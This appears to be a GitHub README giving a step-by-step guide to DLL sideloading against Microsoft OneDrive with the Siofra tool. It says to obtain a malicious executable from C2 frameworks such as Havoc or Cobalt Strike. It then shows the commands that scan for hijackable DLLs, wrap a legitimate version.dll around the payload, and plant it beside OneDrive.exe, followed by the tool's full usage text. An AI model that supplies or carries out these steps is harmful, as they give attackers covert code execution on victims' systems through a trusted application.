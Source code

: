 # DLL-SIDELOADING
Dll sideloading using Exe or Dll
What We Need ?
- A malicious exe ( Like generated by Havoc, Cobalt-Strike or using a Dropper)
- A legit dll
- A vulnerable location according to dll to place the malicious one there ( We Can Find It Using The Same Tool).

USAGE:
Clone the repo or download zip. \n
First we have to find vulnerable location and binaries.
For OneDrive the location of OneDrive.exe is ( C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe )
Open Cmd go to the Siofra location
Use Command : Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe 
You will get the vulnerable location ( Example : 
[!] Module Secur32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\Secur32.dll (real path: C:\WINDOWS\system32\Secur32.dll)
[!] Module VERSION.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll (real path: C:\WINDOWS\system32\VERSION.dll)
[!] Module WININET.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WININET.dll (real path: C:\WINDOWS\system32\WININET.dll)
[!] Module WTSAPI32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WTSAPI32.dll (real path: C:\WINDOWS\system32\WTSAPI32.dll)
)
Make a folder ( For example named : dll-sideloading )
Now copy the dll you want to proxy using the real path to the folder (for  example copy version.dll ( C:\WINDOWS\system32\VERSION.dll ) to the folder)
Also place the malicious dll or exe in the folder
Make a Sub-folder named output
open cmd go to the siofra location 
Use Command : Siofra64.exe --mode infect -f C:\Users\mulware\Desktop\DLL-sideloading\version.dll -o C:\Users\mulware\Desktop\DLL-sideloading\output\version.dll --payload-path C:\Users\mulware\Desktop\DLL-sideloading\malware.exe --payload-type process
The Payload type = For exe ( process ) and for dll ( library )
If successful you will get a malicious dll in output file
Copy the malicious dll in the vulnerable location we find above ( For Example : C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll )
Now Run OneDrive.exe
BOOM !

:::::::::OPTIONAL :::::::::

More Usage : 
*] Siofra version 1.13 usage: Siofra64.exe --mode [Supported modes: "file-scan", "mem-scan" and "infect"] -v [Optional. Output verbosity level]
    Verbosity levels:
        0 - No output
        1 - Only critical success/failure status (default)
        2 - Additional status details for success/failure status, including discarded PEs
        3 - Everything
    File scan mode:
        -f [File or directory to scan]
        -r [Optional. Recursive scan]
        --signed [Optional. Process only signed binaries]
        --delayload [Optional. Include delayload imports in dependency list]
        --explicit-loadlibrary [Optional. Include potentially explicit imports in dependency list (these are *.dll strings which may have been called via LoadLibrary(Ex)A/W]
        --auto-elevate [Optional. Scan only auto-elevate binaries]
    Memory scan mode:
        --pid [Target process ID to scan. When not specified, a list of either 32 or 64-bit process names/PIDs will be enumerated (corresponding to either the 32 or 64-bit version of this tool)]
    Any scan mode:
        --enum-dependency [Enumerate dependencies]
        --show-unmapped-apiset [Optional. Include API sets which failed to map to a module from output (ignored by default)]
        --dll-hijack [Enumerate DLL hijacking vulns]
        --find-module [Optional. Scan dependencies for a specific module. Note that this excludes KnownDLLs]
    Infect mode:
        -f [DLL file to infect]
        -o [Output file]
        --payload-path [Path of DLL to be loaded in to infected DLL at runtime, or path of executable to be launched at runtime]
        --payload-type [The type of payload specified in the parasite payload path. This can be "process" (generally indicating a exe) or "library" (generally indicating a DLL)]

CREDITS : 
https://github.com/cys3c
        
